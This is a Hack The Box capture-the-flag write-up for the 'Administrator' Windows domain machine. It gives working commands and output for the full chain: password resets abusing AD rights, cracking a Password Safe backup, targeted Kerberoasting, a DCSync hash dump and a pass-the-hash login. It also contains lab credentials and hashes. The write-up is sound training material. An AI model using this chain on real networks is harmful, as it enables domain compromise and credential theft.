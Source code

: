 ```yaml
---
title: Administrator
published: 2024-12-17
description: 'Administrato Hackthebox machine writeup'
image: '../../assets/administrator/administrator.png'
tags: [HTB, AD, Machines]
category: 'HTB'
draft: true 
lang: ''
---
```



first of all in this machine they gave us a username:password to starts with `Olivia::ichliebedich`

# enumeration
```
nmap -sC -sV -Pn -oA Administrator 10.10.11.42

Nmap scan report for 10.10.11.42
Host is up (0.093s latency).
Not shown: 988 closed tcp ports (conn-refused)
PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-12-16 20:43:17Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: administrator.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: administrator.htb0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

```

we notice that there is an ftp port open

# Active Directory enumeration

using the creds given with bloodhound to collect some information about the AD envirement
```bash
bloodhound-python -u 'Olivia' -p 'ichliebedich' -ns 10.10.11.42 -d administrator.htb -c all

zip -r bloodhound.zip *.json
```

now lets open the .zip file with bloodhound

![](src/assets/administrator/Administrator_image_1.png)

first thing we notice when seeing rights Olivia have is the `GenericAll` on MICHAEL, this gives Full control of a user that allows you to modify properties of the user to perform a targeted kerberoast attack, and also grants the ability to reset the password of the user without knowing their current one, we gonna chose the second one and try to reset the `MICHAEL` password using this command:

```bash
net rpc password "MICHAEL" "password123" -U "administrator.htb"/"Olivia"%"ichliebedich" -S "dc.administrator.htb"
```

```bash
netexec smb 10.10.11.42 -u 'MICHAEL' -p 'password123'

SMB         10.10.11.42     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:administrator.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.42     445    DC               [+] administrator.htb\MICHAEL:password123 
```



## Michael

![](src/assets/administrator/Administrator_image_2.png)
from bloudhound we can see that `MICHAEL` have `ForceChangePassword` ACE on `Benjamin` lets try to exploit this again with `net` command from samba tools 

```bash
net rpc password "BENJAMIN" "password123" -U "administrator.htb"/"MICHAEL"%"password123" -S "dc.administrator.htb"
```

verification:
```bash
netexec smb 10.10.11.42 -u 'BENJAMIN' -p 'password123'

SMB         10.10.11.42     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:administrator.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.42     445    DC               [+] administrator.htb\BENJAMIN:password123 

```

## Benjamin

apparently `Benjamin` does not have any ACEs rights, now lets try to do something else with this user

remember the FTP service, if we try to log in with this user we can download a .psafe3 Passwords file

```bash
230 User logged in.
Remote system type is Windows_NT.
ftp> dir
227 Entering Passive Mode (10,10,11,42,241,123).
125 Data connection already open; Transfer starting.
10-05-24  08:13AM                  952 Backup.psafe3
226 Transfer complete.
ftp> get Backup.psafe3
```

the Backup file requires a password to be opened lets try to crack its password using hashcat

```bash
hashcat -m 5200 -a 0 Backup.psafe3 rockyou.txt
```

we find this password `tekieromucho`

now lets open the backup file using `PasswordSafe` software
![](src/assets/administrator/Administrator_image_3.png)

emily have an `GenericWrite` on `Ethan`, so we can do a `targetedKerberos` attack to retrieve its TGS and try to crack it

![](src/assets/administrator/Administrator_image_4.png)

```bash
python targetedKerberoast.py -v -d 'administrator.htb' -u 'emily' -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb'
...

impacket.krb5.kerberosv5.KerberosError: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
```
so solve this error i followed this blog: https://medium.com/@danieldantebarnes/fixing-the-kerberos-sessionerror-krb-ap-err-skew-clock-skew-too-great-issue-while-kerberoasting-b60b0fe20069

```bash
[*] Starting kerberoast attacks
[*] Fetching usernames from Active Directory with LDAP
[VERBOSE] SPN added successfully for (ethan)
[+] Printing hash for (ethan)
$krb5tgs$23$*ethan$ADMINISTRATOR.HTB$...fc5d1cdf4355d75
[VERBOSE] SPN removed successfully for (ethan)
```
now lets crack the TGS with hashcat
```bash
hashcat -m 13100 ethan_tgs rockyou.txt
```

And we found this password: `limpbizkit`
## Ethan

searching for users who have DCSync revealed that `Ethan` have DCSync rights too

![](src/assets/administrator/Administrator_image_5.png)


now lets try to dump `administrator` NTLM hash using `secretsdump`
```bash
secretsdump.py 'administrator.htb'/'ethan':'limpbizkit'@'dc.administrator.htb'


Administrator:500:aad3b435b51404eeaad3b435b51404ee:3dc553ce4b9fd20bd016e098d2d2fd2e:::
....
```


now we can connect using `evil-winrm` as administrator and get the user and admin flags
```bash
evil-winrm -i 10.10.11.42 -u 'administrator'  -H '3dc553ce4b9fd20bd016e098d2d2fd2e'
```


